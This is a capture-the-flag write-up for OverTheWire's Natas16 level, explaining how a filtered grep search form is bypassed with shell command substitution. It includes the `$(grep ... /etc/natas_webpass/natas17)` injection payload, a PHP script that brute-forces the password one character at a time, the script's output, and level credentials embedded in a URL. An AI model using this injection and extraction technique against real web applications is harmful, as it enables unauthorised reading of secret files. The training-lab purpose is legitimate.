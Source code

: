 # Overthewire CTF wargame
http://overthewire.org/wargames/natas/


# Natas16 

## Notes

1.  The aim of this level is to read the password in the file `/etc/natas_webpass/natas17`

1.	This level is like previous levels (9, 10) where we have a search form to grep contents from `dictionary.txt`. But this time they've made it more challenging:

		For security reasons, we now filter even more on certain characters

2.	Viewing the source reveals what tricks they are using:

		if (preg_match('/[;|&`\'"]/',$key)) {
		    print "Input contains an illegal character!";
		} else {
		    passthru("grep -i \"$key\" dictionary.txt");
		}
    
3.  To break out of the inner quotes for key, we can have bash evaluate an expression for us, like so:

		$(grep a /etc/natas_webpass/natas17)

4.  If the password contains `a` it is returned by `grep`, and since that result don't match anything in a dictionary, the result is empty.

5. As the grep above won't tell us _where_ in the password `a` is, we can instead use regex `.` to brute force the password, starting with `a...............................`:

		$(grep a............................... /etc/natas_webpass/natas17)
    
6. Brute forcing is of course easier with a script (here using simple html dom lib):

		<?php
		    include('simple_html_dom.php');

		    function find($key) {
		        $url = 'http://natas16:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh@natas16.natas.labs.overthewire.org/?needle=$(grep%20' . $key . '%20/etc/natas_webpass/natas17)&submit=Search';
		        $html = file_get_html($url);
		        return (strlen($html->find('pre')[0]->plaintext) < 10);
		    }

		    $key = "................................";

		    for ($i = 0; $i < 32; $i++) {
		        foreach(array_merge(range(0, 9), range('A', 'Z'), range('a', 'z')) as $c) {
		            $key[$i] = $c;
		            if (find($key)) {
		                print $key . "<br>";
		                break;  
		            }
		        }
		    }
		?>
    
7. This gives us the following result, ending with the password for `natas17`:

		8...............................
		8P..............................
		8Ps.............................
		8Ps3............................
		8Ps3H...........................
		8Ps3H0..........................
		8Ps3H0G.........................
		8Ps3H0GW........................
		8Ps3H0GWb.......................
		8Ps3H0GWbn......................
		8Ps3H0GWbn5.....................
		8Ps3H0GWbn5r....................
		8Ps3H0GWbn5rd...................
		8Ps3H0GWbn5rd9..................
		8Ps3H0GWbn5rd9S.................
		8Ps3H0GWbn5rd9S7................
		8Ps3H0GWbn5rd9S7G...............
		8Ps3H0GWbn5rd9S7Gm..............
		8Ps3H0GWbn5rd9S7GmA.............
		8Ps3H0GWbn5rd9S7GmAd............
		8Ps3H0GWbn5rd9S7GmAdg...........
		8Ps3H0GWbn5rd9S7GmAdgQ..........
		8Ps3H0GWbn5rd9S7GmAdgQN.........
		8Ps3H0GWbn5rd9S7GmAdgQNd........
		8Ps3H0GWbn5rd9S7GmAdgQNdk.......
		8Ps3H0GWbn5rd9S7GmAdgQNdkh......
		8Ps3H0GWbn5rd9S7GmAdgQNdkhP.....
		8Ps3H0GWbn5rd9S7GmAdgQNdkhPk....
		8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq...
		8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9..
		8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9c.
		8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
